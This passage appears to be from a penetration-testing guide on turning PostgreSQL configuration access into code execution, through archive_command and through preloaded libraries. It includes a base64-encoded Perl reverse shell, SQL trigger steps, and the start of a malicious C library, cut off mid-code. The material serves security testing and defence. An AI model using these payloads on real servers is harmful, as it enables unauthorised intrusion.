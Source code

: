 #### **RCE with archive_command**

**More** [**information about this config and about WAL here**](https://medium.com/dont-code-me-on-that/postgres-sql-injection-to-rce-with-archive-command-c8ce955cf3d3)**.**

Another attribute in the configuration file that is exploitable is `archive_command`.

For this to work, the `archive_mode` setting has to be `'on'` or `'always'`. If that is true, then we could overwrite the command in `archive_command` and force it to execute via the WAL (write-ahead logging) operations.

The general steps are:

1. Check whether archive mode is enabled: `SELECT current_setting('archive_mode')`
2. Overwrite `archive_command` with the payload. For eg, a reverse shell: `archive_command = 'echo "dXNlIFNvY2tldDskaT0iMTAuMC4wLjEiOyRwPTQyNDI7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307" | base64 --decode | perl'`
3. Reload the config: `SELECT pg_reload_conf()`
4. Force the WAL operation to run, which will call the archive command: `SELECT pg_switch_wal()` or `SELECT pg_switch_xlog()` for some Postgres versions

#### **RCE with preload libraries**

More information [about this technique here](https://adeadfed.com/posts/postgresql-select-only-rce/).

This attack vector takes advantage of the following configuration variables:

- `session_preload_libraries` -- libraries that will be loaded by the PostgreSQL server at the client connection.
- `dynamic_library_path` -- list of directories where the PostgreSQL server will search for the libraries.

We can set the `dynamic_library_path` value to a directory, writable by the `postgres` user running the database, e.g., `/tmp/` directory, and upload a malicious `.so` object there. Next, we will force the PostgreSQL server to load our newly uploaded library by including it in the `session_preload_libraries` variable.

The attack steps are:

1. Download the original `postgresql.conf`
2. Include the `/tmp/` directory in the `dynamic_library_path` value, e.g. `dynamic_library_path = '/tmp:$libdir'`
3. Include the malicious library name in the `session_preload_libraries` value, e.g. `session_preload_libraries = 'payload.so'`
4. Check major PostgreSQL version via the `SELECT version()` query
5. Compile the malicious library code with the correct PostgreSQL dev package Sample code:

   ```c
   #include <stdio.h>
   #include <sys/socket.h>
   #include <sys/types.h>
   #include <stdlib.h>
   #include <unistd.h>
   #include <netinet/in.h>
   #include <arpa/inet.h>
   #include "postgres.h"
   #include "fmgr.h"

   #ifdef PG_MODULE_MAGIC
   PG_MODULE_MAGIC;
   #endif

   void _init() {
      /*
          code taken from https://www.revshells.com/
      */
   ```